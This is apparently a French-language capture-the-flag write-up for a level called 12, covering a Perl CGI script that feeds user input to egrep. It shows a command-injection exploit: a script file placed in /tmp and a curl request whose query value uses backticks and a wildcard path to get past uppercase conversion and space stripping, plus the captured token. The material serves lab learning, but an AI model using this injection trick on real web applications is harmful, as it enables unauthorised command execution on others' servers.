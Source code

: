 #LEVEL 12

script perl;
deux fonctions;

L'opérateur =~ applique la recherche à la chaîne placée à gauche et return TRUE si la regex correspond ou FALSE.
@variable pour un tableau.
sub = subroutines/sous programme.

$_[0]_ pour le premier argument envoyer, et ainsi de suite c'est un tab;

n appelle t(x, y) {
	on stocke x dans xx;
	on stocke y dans nn;

	la premiere regex transforme les minuscule en majuscule;
	supprime tout ce qui suit un espace.

}

a l'executio de egrep on peut en profiter pour y injecter un script a executer comme dans l'exo precedent.
la fonction transforme en majuscule puis supprime les espaces il est donc complique d'envoyer la commande directement
on va plutot lui envoyer lui faire lancer un script qui contient notre commande.

grace a une wildcard et un nom unique on va pouvoir acceder a notre script

~$ cat tmp/SCRIPT
#!/bin/sh
getflag > /tmp/flag12

on lance ensuite notre requete curl avec le script en parametre.

~$ curl ip.machine.virtuelle:4646?x='`/*/SCRIPT`'
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr

